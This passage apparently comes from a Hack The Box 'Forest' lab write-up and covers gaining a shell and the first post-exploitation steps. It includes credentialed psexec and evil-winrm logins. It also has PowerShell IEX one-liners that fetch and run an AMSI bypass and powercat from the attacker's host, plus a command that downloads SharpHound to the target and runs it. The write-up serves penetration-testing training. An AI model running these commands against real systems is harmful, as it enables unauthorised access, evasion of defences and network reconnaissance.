 

## Getting the Shell

### Psexec

```bash
impacket-psexec htb.local/svc-alfresco:s3rvice@10.10.10.161
```

***Without Success!***

### WinRM

```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

***Success!***

### HABEMUSS!!!

![Untitled](https://0xetern4lw0lf.github.io/assets/img/HTB/HTB-Forest/Untitled%201.png)


# Post Exploration


## Spawning Shell

The impacket-psexec gives me a non-interactive shell. I used powercat.txt to get an interactive shell.

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.2/amsi.txt')
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.2/powercat.txt')
```


## BLOODHOUND

I downloaded and ran SharpHound.exe on the target. Its output transfer to kali and I used BloodHound to do the reading in graphical mode. Both tools were referenced in the chapter “Pentest Tools”.

* Download:

```powershell
powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2//sharphound.exe','c:\\windows\\tasks\\sharphound.exe')
```

* Running SharpHound.exe:

```powershell
C:\Windows\Tasks\SharpHound.exe --CollectionMethods All
```
